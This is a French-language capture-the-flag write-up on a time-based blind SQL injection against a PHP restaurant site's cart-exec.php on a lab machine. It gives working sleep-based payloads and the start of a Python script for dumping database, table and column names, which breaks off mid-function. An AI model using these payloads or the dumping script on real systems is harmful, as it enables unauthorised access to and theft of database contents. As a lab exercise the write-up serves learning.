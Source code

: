 ## **SQLi Time-Based**

En analysant un peu les requêtes que faisaient le serveur web, j’ai trouvé ce point d’injection plutôt intéressant.

![Untitled](https://user-images.githubusercontent.com/68467919/210107834-cb2df02a-e70e-406e-ad3b-5861c46f9933.png)

![Untitled 1](https://user-images.githubusercontent.com/68467919/210107843-77af0fb2-1831-4ee5-869c-0b83d357980a.png)

![Untitled 2](https://user-images.githubusercontent.com/68467919/210107854-d9ffd96b-b302-41b5-ae76-742a5e63b85f.png)

Vu que nous n’avons pas de retour visuel sur le résultat de notre requête mais seulement une erreur, j’ai essayé d’exploiter une SQLi Time Based. 

![Untitled 3](https://user-images.githubusercontent.com/68467919/210107864-c6fee17c-e75d-4afe-a6fe-5b8684dfccec.png)

Étant donné que je n’ai jamais vraiment exploité d’SQLi Time Based, je me suis aidé de ce writeup d’un autre CTF pour pouvoir m’orienter : 

[https://musyokaian.medium.com/time-based-sql-injection-hsctf-big-blind-writeup-f3a320d63ea8](https://musyokaian.medium.com/time-based-sql-injection-hsctf-big-blind-writeup-f3a320d63ea8)

Pour commencer, j’ai trouvé le moyen de pouvoir faire en sorte de sleep la réponse du serveur. 

```bash
/rms/cart-exec.php?id=26'-sleep(5)--+-&lt=food
```

Ce payload fonctionne, je reçois donc l’erreur du serveur 10 secondes après ma requête.

Par la suite, je vais essayer de déterminer le premier char du nom de la base de donnée courante qu’utilise le site web.

```bash
/rms/cart-exec.php?id=26'-(select+sleep(10)+from+dual+where+database()+like+'d%')--+-&lt=food
```

La réponse du serveur met encore dix secondes à s’afficher. Maintenant il est temps de tester toutes les possibilités ! 

J’ai crée un script pour pouvoir dump la base de donnée et ainsi peut-être pouvoir me connecter sur le site en tant qu’administrateur ou autre.

```python
#!/usr/bin/python3
import requests

URL = "http://10.10.167.176:12340/rms/cart-exec.php?id="
cookie = dict(PHPSESSID="d0v3j6s07jmsv6uulfgsj0n3s2") #Changer ca

database_list = [] #Si la base de donnée est déjà connue, rajoutez la dans la liste 
table_list = []
column_list = []

user_choice_database=""

def dump_data(url=URL, cookie=cookie, column_name=column_list, database=user_choice_database):
    [print('[',index_element,']: -> ',element) for index_element, element in enumerate(column_list)]
    
    user_choice = int(input('Quelle colonnes voulez-vous analyser ? (index) : '))

    i = 0
    restart = 75
    last_letter=""
    data_name=""
    data_leak=[]
    limit = 0
```